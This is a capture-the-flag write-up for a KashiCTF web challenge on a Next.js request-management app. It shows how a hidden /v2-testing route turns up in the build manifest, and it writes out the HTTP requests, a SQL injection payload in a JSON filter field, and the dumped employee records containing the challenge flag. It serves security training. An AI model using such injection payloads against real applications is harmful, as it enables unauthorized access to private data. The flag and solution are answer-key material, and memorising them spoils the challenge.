 # Challenge description

The Request Management App is used to view all pending requests for each user. It’s a pretty basic website, though I heard they were working on something new.

Anyway, did you know that one of the disgruntled employees shared some company secrets on the Requests Management App, but it's status was set denied before I could see it. Please find out what it was and spill the tea!

# Soluce

## First step

We open the site with burp, to see all the requests.

When we open the site, we see that the site is a simple site with a list of requests. We can see that the site is a Next.js site. The route /api/list is used to get the list of requests. 

When querying the /api/list API, we found that it only returned requests with the status "pending", with no apparent option to see the "denied". 

Next.js JavaScript files (/_next/static/...) were examined for hidden API endpoints.

In the build-manifest.js file, we found the following:

```js
HTTP/1.1 200 OK
Cache-Control: public, max-age=31536000, immutable
Accept-Ranges: bytes
Last-Modified: Sat, 22 Feb 2025 14:37:35 GMT
ETag: W/"238-1952e17a004"
Content-Type: application/javascript; charset=UTF-8
Content-Length: 568
Vary: Accept-Encoding
Date: Sat, 22 Feb 2025 15:50:17 GMT
Connection: keep-alive
Keep-Alive: timeout=5

self.__BUILD_MANIFEST=function(e,r,s){return{__rewrites:{afterFiles:[],beforeFiles:[],fallback:[]},__routerFilterStatic:{numItems:0,errorRate:1e-4,numBits:0,numHashes:null,bitArray:[]},__routerFilterDynamic:{numItems:0,errorRate:1e-4,numBits:e,numHashes:null,bitArray:[]},"/":["static/chunks/pages/index-6413244cd5618b98.js"],"/_error":["static/chunks/pages/_error-fde50cb7f1ab27e0.js"],"/v2-testing":["static/chunks/pages/v2-testing-fb612b495bb99203.js"],sortedPages:["/","/_app","/_error","/v2-testing"]}}(0,0,0),self.__BUILD_MANIFEST_CB&&self.__BUILD_MANIFEST_CB();
```

We can see that there is a hidden API endpoint: /v2-testing

This endpoint also returns a list of requests, but with a different format.
When querying this endpoint, this automatically call that:

```http
POST /api/list-v2 HTTP/1.1
Host: kashictf.iitbhucybersec.in:6768
Content-Length: 13
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://kashictf.iitbhucybersec.in:6768
Referer: http://kashictf.iitbhucybersec.in:6768/v2-testing
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"filter":""}
```

Let's try to change the filter to "denied" to see if we can get the denied requests. This is not the case. 

Now let's try to do an SQL injection in the filter field.

```json
{ "filter": "pending' OR 1=1 --" }
```

This return that:

```json
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "615nxdwhdu3bd"
Vary: Accept-Encoding
Date: Sat, 22 Feb 2025 16:25:55 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 4297

[{"employee_name":"robert.martin","request_detail":"Approve budget for Q4","status":"approved","department":"Finance","role":"Financial Analyst","email":"robert.martin@corp.com"},{"employee_name":"susan.clark","request_detail":"Request IT support for software update","status":"pending","department":"IT","role":"Software Engineer","email":"susan.clark@corp.com"},{"employee_name":"laura.jones","request_detail":"Propose restructuring of marketing strategy","status":"approved","department":"Marketing","role":"Marketing Manager","email":"laura.jones@corp.com"},{"employee_name":"daniel.wilson","request_detail":"Submit legal review for merger","status":"approved","department":"Legal","role":"Legal Advisor","email":"daniel.wilson@corp.com"},{"employee_name":"emily.davis","request_detail":"Oversee lab equipment procurement","status":"pending","department":"R&D","role":"Procurement Specialist","email":"emily.davis@corp.com"},{"employee_name":"james.brown","request_detail":"Plan office relocation","status":"approved","department":"Operations","role":"Operations Manager","email":"james.brown@corp.com"},{"employee_name":"patricia.lee","request_detail":"Organize annual compliance training","status":"approved","department":"Compliance","role":"Compliance Officer","email":"patricia.lee@corp.com"},{"employee_name":"kevin.harris","request_detail":"Set up new server infrastructure","status":"pending","department":"IT","role":"Network Engineer","email":"kevin.harris@corp.com"},{"employee_name":"olivia.king","request_detail":"Review vendor contracts","status":"denied","department":"Finance","role":"Accountant","email":"olivia.king@corp.com"},{"employee_name":"michael.scott","request_detail":"Coordinate regional sales conference","status":"approved","department":"Sales","role":"Regional Manager","email":"michael.scott@corp.com"},{"employee_name":"sarah.miller","request_detail":"Redesign corporate website","status":"approved","department":"Marketing","role":"Web Designer","email":"sarah.miller@corp.com"},{"employee_name":"steven.white","request_detail":"Negotiate supplier agreements","status":"pending","department":"Procurement","role":"Procurement Manager","email":"steven.white@corp.com"},{"employee_name":"alice.warren","request_detail":"Evaluate new HR policies","status":"approved","department":"HR","role":"HR Manager","email":"alice.warren@corp.com"},{"employee_name":"charles.davis","request_detail":"Revamp training program","status":"pending","department":"HR","role":"Training Coordinator","email":"charles.davis@corp.com"},{"employee_name":"paul.robinson","request_detail":"Upgrade security protocols","status":"approved","department":"Security","role":"Security Analyst","email":"paul.robinson@corp.com"},{"employee_name":"nancy.clarke","request_detail":"Analyze competitor strategies","status":"approved","department":"Strategy","role":"Business Analyst","email":"nancy.clarke@corp.com"},{"employee_name":"peter.johnson","request_detail":"Shitty job, I hate working here, I will leak all important information like KashiCTF{s4m3_old_c0rp0_l1f3_wbDQpmae}","status":"denied","department":"Logistics","role":"Supply Chain Manager","email":"peter.johnson@corp.com"},{"employee_name":"rebecca.adams","request_detail":"Migrate database to cloud","status":"pending","department":"IT","role":"Database Administrator","email":"rebecca.adams@corp.com"},{"employee_name":"tom.anderson","request_detail":"Set up employee wellness program","status":"approved","department":"HR","role":"Wellness Coordinator","email":"tom.anderson@corp.com"},{"employee_name":"harry.thomas","request_detail":"Investigate security breach","status":"approved","department":"Security","role":"Incident Response","email":"harry.thomas@corp.com"},{"employee_name":"linda.evans","request_detail":"Renew software licenses","status":"approved","department":"IT","role":"Software Asset Manager","email":"linda.evans@corp.com"},{"employee_name":"richard.collins","request_detail":"Draft public relations statement","status":"denied","department":"Public Relations","role":"PR Specialist","email":"richard.collins@corp.com"},{"employee_name":"barbara.jenkins","request_detail":"Approve recruitment plan","status":"pending","department":"HR","role":"Talent Acquisition Lead","email":"barbara.jenkins@corp.com"}]
```

We can see that the flag is: `KashiCTF{s4m3_old_c0rp0_l1f3_wbDQpmae}`, we have access to the denied requests.